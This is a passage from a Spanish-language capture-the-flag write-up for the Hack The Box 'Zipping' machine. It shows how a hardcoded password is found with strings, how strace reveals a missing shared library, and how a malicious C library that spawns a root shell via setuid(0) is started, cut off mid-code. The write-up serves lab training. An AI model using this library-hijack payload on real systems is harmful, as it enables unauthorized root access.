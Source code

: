 El archivo que podemos ejecutar como sudo es `/usr/bin/stock`.  
Listamos los permisos del archivo.
```bash
ls -la /usr/bin/stock
```
Observamos que nuestro usuario actual tiene permisos de ejecución.  
![Desktop View](/writeup-htb-zipping/ls.png)
_Listar permisos_

Ejecutamos el archivo para ver que cuál es el funcionamiento de este.
```bash
/usr/bin/stock
```
Nos pide digitar un password, colocamos cualquiera y nos vota un mensaje diciendo que el password es incorrecto.  
![Desktop View](/writeup-htb-zipping/stock.png)
_Ejecución stock_

Con el comando `strings` vemos el código del programa.  
```bash
strings /usr/bin/stock
```
Aquí podemos encontrar la palabra `St0ckM4nager` que parece ser el password.  
![Desktop View](/writeup-htb-zipping/strings.png)
_strings_
Ejecutamos el programa, colocamos en el password `St0ckM4nager`, nos acepta este valor como password y nos aparece un menú para ver y editar stock.  
![Desktop View](/writeup-htb-zipping/stock2.png)
_Ejecución stock_
Listo, ahora hay que buscar una vulnerabilidad en este programa.  
Usamos el comando `strace` para ver las librerías que llama este programa y quizás por acá obtengamos una pista.
> El comando strace en Unix se utiliza para realizar un seguimiento (trace) del sistema de llamadas realizadas por un programa. Permite interceptar y registrar las llamadas al sistema y las señales que realiza un programa durante su ejecución. Esto puede ser útil para depurar problemas, entender el comportamiento de un programa, o diagnosticar problemas de rendimiento.
{: .prompt-info }
Colocamos lo siguiente para iniciar el trace.
```bash
strace /usr/bin/stock
```
Nos pedirá el password, colocamos el password y vemos algo curioso, llama a la librería `/home/rektsu/.config/libcounter.so`, la cual no existe.  
![Desktop View](/writeup-htb-zipping/strace.png)
_strace_
> Como la librería que llama `/home/rektsu/.config/libcounter.so` se encuentra dentro de la carpeta de nuestro usuario, nosotros podemos crear ese archivo y de esa manera poder escalar privilegios.
{: .prompt-tip }
Buscando como escalar privilegios mediante un archivo `.so`, logré hallar el siguiente artículo [**ld.so privesc exploit example**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example), donde explican el paso a paso para escalar privilegios.
- Primeramente debemos crear un archivo con extención `.c`, donde vamos a colocar el siguiente código.  
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
void vuln_func()__attribute__((constructor));
void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
```